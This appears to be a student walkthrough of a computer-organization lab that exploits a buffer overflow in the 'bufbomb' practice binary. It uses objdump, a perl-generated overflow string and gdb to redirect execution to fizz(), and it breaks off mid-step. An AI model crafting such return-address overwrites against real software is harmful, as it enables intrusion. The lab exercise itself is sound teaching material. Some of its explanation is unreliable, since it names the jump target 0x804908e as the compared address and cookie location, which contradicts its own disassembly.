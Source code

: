 Goal = change the return address and but also give your "id" within the buffer overflow.

To find the address of function ```fizz()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find fizz:

```
0804905f <fizz>:
 804905f:       55                      push   %ebp
 8049060:       89 e5                   mov    %esp,%ebp
 8049062:       83 ec 18                sub    $0x18,%esp
 8049065:       8b 45 08                mov    0x8(%ebp),%eax # <=== 1)
 8049068:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax # <=== 2)
 804906e:       75 1e                   jne    804908e <fizz+0x2f> # <=== 3)
 8049070:       89 44 24 04             mov    %eax,0x4(%esp)
 8049074:       c7 04 24 87 9f 04 08    movl   $0x8049f87,(%esp)
 804907b:       e8 60 f8 ff ff          call   80488e0 <printf@plt>
 8049080:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8049087:       e8 48 00 00 00          call   80490d4 <validate>
 804908c:       eb 10                   jmp    804909e <fizz+0x3f>
 804908e:       89 44 24 04             mov    %eax,0x4(%esp)
 8049092:       c7 04 24 80 a1 04 08    movl   $0x804a180,(%esp)
 8049099:       e8 42 f8 ff ff          call   80488e0 <printf@plt>
 804909e:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 80490a5:       e8 e6 f8 ff ff          call   8048990 <exit@plt>
```
<b>write down the address of fizz. Mine is 0804905f</b>

1) at 8049065 the value at %esp+8 is being stored into %eax by the mov instruction.
2) the value stored in %eax is compared to the value at address 0x804908e.
   
0x804908e is where the cookie for id "quinnliu" has been stored.

When the comp instruction executes, cmp will set an EFLAG based on the results of the compare.

3) the jne(jump if not equal) instruction jumps to 0x804908e depending the the state of the
EFlag. When the cmp instruction compares 2 values that are equal then the ZF flag = 1 within EFLAGS. 
and the jump will not occur. 

More specific goal = push the address of fizz onto the stack, place the cookie produced by
the id "quinnliu" at the location 0x8(%ebp) 

Now create this new file with the address of fizz you wrote down earlier:
```
unix> perl -e 'print "61 "x32, "5f 90 04 08 ", "BB "x4, "CC "x4 '>hexlevel1
unix> ./hex2raw < hexlevel1 > raw
```

Now type:
```
unix> gdb bufbomb
(gdb) break fizz
(gdb) run -u quinnliu < raw
```

Which gives you:
```
(gdb) run -u quinnliu < raw
Starting program: /home/ugrads/majors/quinnliu/Desktop/ComputerOrganizationII/buflab-handout/bufbomb -u quinnliu < raw
Userid: quinnliu
Cookie: 0x2d8cc70c

Breakpoint 1, 0x08049065 in fizz ()
Missing separate debuginfos, use: debuginfo-install glibc-2.12-1.47.el6_2.5.i686
(gdb) disas
Dump of assembler code for function fizz:
   0x0804905f <+0>:     push   %ebp
   0x08049060 <+1>:     mov    %esp,%ebp
   0x08049062 <+3>:     sub    $0x18,%esp
=> 0x08049065 <+6>:     mov    0x8(%ebp),%eax
   0x08049068 <+9>:     cmp    0x804c1e4,%eax
   0x0804906e <+15>:    jne    0x804908e <fizz+47>
   0x08049070 <+17>:    mov    %eax,0x4(%esp)
   0x08049074 <+21>:    movl   $0x8049f87,(%esp)
   0x0804907b <+28>:    call   0x80488e0 <printf@plt>
   0x08049080 <+33>:    movl   $0x1,(%esp)
   0x08049087 <+40>:    call   0x80490d4 <validate>
   0x0804908c <+45>:    jmp    0x804909e <fizz+63>
   0x0804908e <+47>:    mov    %eax,0x4(%esp)
   0x08049092 <+51>:    movl   $0x804a180,(%esp)
   0x08049099 <+58>:    call   0x80488e0 <printf@plt>
   0x0804909e <+63>:    movl   $0x0,(%esp)
   0x080490a5 <+70>:    call   0x8048990 <exit@plt>
End of assembler dump.
```

Now type:
```(gdb) i r``` 

And you will get:

```
(gdb) i r
eax            0x1      1
ecx            0xa      10
edx            0xbe4334 12469044
ebx            0x0      0
esp            0x5568333c       0x5568333c
ebp            0x55683354       0x55683354
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8049065        0x8049065 <fizz+6>
eflags         0x216    [ PF AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

Now we take the address at %ebp and add 0x8 to get the address of where it will grab the value to compare to the cookie "quinnliu"

addressAt%ebp = 0x55683354